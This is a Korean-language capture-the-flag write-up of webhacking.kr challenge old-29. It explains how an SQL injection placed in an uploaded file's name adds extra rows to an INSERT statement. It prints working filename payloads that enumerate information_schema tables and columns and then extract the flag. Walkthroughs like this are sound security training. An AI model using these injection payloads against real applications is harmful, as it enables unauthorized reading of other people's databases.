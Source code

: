 ```yaml
---
title: ["[Webhacking.kr] old-29 (sqli - 40)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-29/recon.png)

업로드한 파일의 리스트를 출력해준다.  
ip를 기준으로 결과 table이 출력되는 것을 보아 쿼리가 다음과 같을 것이다.  
```mysql
SELECT time, ip, file FROM chall29 WHERE ip='{$REMOTE_ADDR}';
```  


그리고 파일을 업로드할 때는 다음과 같은 쿼리가 실행될 것이다.  
```mysql
INSERT into chall29 values(time, ip, file)
```  


## Analysis

```mysql
INSERT into chall29 values(time, ip, file)
```  
만약 데이터를 insert하는 쿼리가 다음과 같다면,  
file 이름에 sql injection을 다음과 같이 트리거할 수 있다.  

```mysql
INSERT into chall29 values(time, ip, file1), (time, ip, file2)
```  

하지만 서버에서 upload error를 출력했다.  

이는 쿼리문이 예상대로 생기지 않았다는 의미이다.  
`no`와 같은 컬럼이 추가로 있을 수도 있지만,  
블랙박스 SQLi에서 새로운 컬럼을 추가하진 않았을 것이다.  

데이터를 insert하는 순서가 달라질 수 있다.  

```mysql
INSERT into chall29 values(file, time, ip)
```  
여러 시도 끝에 위와 같은 순서로 이루어져있음을 알 수 있었다.  

file 이름을 `test1',1732520229,'45.67.97.61'),'test2` 이렇게 설정하면 인젝션이 성공하게 된다.  

다른 테이블에 있는 flag를 읽어오기 위해, DB명과 테이블명 컬럼명을 알아내보자.  

```
filename="test1',1732520229,'45.67.97.61'),(database(),1732520229,'45.67.97.61'),('test3" 
// chall29

filename="test1',1732520229,'45.67.97.59'),((select table_name from information_schema.tables where table_schema='chall29' limit 0,1),1732520229,'45.67.97.59'),('test3"
// files

filename="test1',1732520229,'45.67.97.59'),((select table_name from information_schema.tables where table_schema='chall29' limit 1,2),1732520229,'45.67.97.59'),('test3"
// flag_congratz

filename="test1',1732520229,'45.67.97.59'),((select table_name from information_schema.tables where table_schema='chall29' limit 2,3),1732520229,'45.67.97.59'),('test3"
// upload error!

filename="test1',1732520229,'45.67.97.59'),((select column_name from information_schema.columns where table_name='flag_congratz' limit 0,1),1732520229,'45.67.97.59'),('test3"
// flag

filename="test1',1732520229,'45.67.97.59'),((select column_name from information_schema.columns where table_name='flag_congratz' limit 1,2),1732520229,'45.67.97.59'),('test3"
// upload error!

filename="test1',1732520229,'45.67.97.59'),((select flag from flag_congratz limit 0,1),1732520229,'45.67.97.59'),('test3"
// FLAG{didYouFeelConfused?_sorry:)}
```


